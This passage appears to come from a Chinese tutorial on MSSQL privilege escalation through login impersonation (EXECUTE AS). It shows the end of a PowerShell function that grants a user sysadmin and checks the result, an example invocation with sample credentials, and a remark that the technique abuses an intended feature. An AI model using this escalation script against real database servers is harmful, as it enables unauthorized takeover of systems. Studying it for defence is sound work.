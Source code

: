             # Execute query
            $cmd = New-Object System.Data.SqlClient.SqlCommand($Query,$conn)
            $results = $cmd.ExecuteReader() 

            # Status user
            Write-Host "[*] Verifying that $UsertoElevate was added to the sysadmin role..."

            # Parse query results
            $TableVerify = New-Object System.Data.DataTable
            $TableVerify.Load($results)  

            # Check if user is a sysadmin
            $TableVerify| Select-Object -First 1 status | foreach {

                $VerifySysadmin = $_.status
                if ($VerifySysadmin -eq 1){
                    Write-Host "[*] Success - $UsertoElevate is now a sysadmin!" -foreground "green"
                    Write-Host "[*] All Done."          
                }else{
                    Write-Host "[*] Failed - Something went wrong!." -foreground "red"
                    Write-Host "[*] All Done."
                } 
            }  

            # Close db connection
            $conn.Close()                        
        }else{
             Write-Host "[*] Sorry, the $ConnectUser account can't impersonate any sysadmins." -foreground "red" 
             Write-Host "[*] All done." 
        }  
        
    }

![9.png](./resource/Mssql模拟登录提权/media/rId38.png)

    Invoke-SqlServer-Escalate-ExecuteAs -SqlUser MyUser1 -SqlPass MyPassword! -SqlServerInstance WIN-80LVKKRM5UA

![10.png](./resource/Mssql模拟登录提权/media/rId39.png)

总的来说，利用这个来提权也不算是漏洞，毕竟可能是运维人员想要的正常功能，然后被攻击者利用，达到提权sysadmin的目的。
